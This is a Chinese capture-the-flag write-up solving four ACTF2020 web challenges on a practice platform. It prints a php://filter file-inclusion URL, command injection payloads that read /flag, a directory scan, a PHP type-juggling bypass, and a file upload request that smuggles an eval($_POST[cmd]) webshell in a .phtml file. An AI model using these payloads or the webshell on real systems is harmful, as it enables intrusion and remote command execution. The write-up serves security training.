 ```yaml
---
title: ACTF2020刷题
date: 2020-04-26 12:42:45
updated: 2020-04-26 12:42:45
tags:
 - 刷题记录
 - wp
 - web
categories:
 - 刷题记录
---
```


# web

## Include

简单为协议包含

```
?file=php://filter/convert.base64-encode/resource=flag.php  然后base64解密

echo "Can you find out the flag?";
//flag{9dc5b2d8-37cf-45a6-b5a3-68b3d5c6c2e5}

```

## Exec

没有进行过滤处理，考的是linux的知识点。一行linux语句如何执行多条linux语句。使用`&&`连接，或者分号`;`隔开。也可以使用管道符号`｜`

但是在此处只能使用｜和分号。（不太清楚）

payload

```
127.0.0.1 | cat /flag
或者
127.0.0.1;cat /flag
```

## BackupFile

扫描目录发现备份文件

```bash
sunny250@kali ~ # dirb http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/ ~/web/dictionaries/CTFwebdir.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Apr 26 13:01:43 2020
URL_BASE: http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/
WORDLIST_FILES: /Users/sx/web/dictionaries/CTFwebdir.txt

-----------------

GENERATED WORDS: 53                                                            

---- Scanning URL: http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/ ----
+ http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/index.php.bak (CODE:200|SIZE:347)
+ http://5c64e8b8-c5fa-41d4-8c5e-ad84cf14332e.node3.buuoj.cn/flag.php (CODE:200|SIZE:0)
                                                                               
-----------------
END_TIME: Sun Apr 26 13:01:46 2020
DOWNLOADED: 53 - FOUND: 2

```

访问index.php.bak得到源码

```php
<?php
include_once "flag.php";

if(isset($_GET['key'])) {
    $key = $_GET['key'];
    if(!is_numeric($key)) {
        exit("Just num!");
    }
    $key = intval($key);
    $str = "123ffwsfwefwf24r2f32ir23jrw923rskfjwtsw54w3";
    if($key == $str) {
        echo $flag;
    }
}
else {
    echo "Try to find out source file!";
}
```

若类型比较会先转换，字符串于整型对比，都会转换成整型。

>[参考文章](https://www.php.net/manual/zh/language.operators.comparison.php)
>
>[intval函数](https://www.php.net/manual/en/function.intval.php)

输入key=123即可



## Upload

打开题目是一个灯，鼠标移动到灯泡之后可以看见一个上传界面

直接上传1.php发现被禁止，尝试掐后缀，发现phtml可以

```http
POST / HTTP/1.1
Host: 32d2077b-2b33-467c-93db-234875e1f69e.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------380150826415384369013004740571
Content-Length: 406
Origin: http://32d2077b-2b33-467c-93db-234875e1f69e.node3.buuoj.cn
Connection: close
Referer: http://32d2077b-2b33-467c-93db-234875e1f69e.node3.buuoj.cn/
Upgrade-Insecure-Requests: 1

-----------------------------380150826415384369013004740571
Content-Disposition: form-data; name="upload_file"; filename="1.phtml"
Content-Type: image/gif

GIF89a
<script language="php"> 
eval($_POST[cmd]);
</script>
-----------------------------380150826415384369013004740571
Content-Disposition: form-data; name="submit"

upload
-----------------------------380150826415384369013004740571--
```

然后得到上传地址，使用蚁剑连接，拿flag

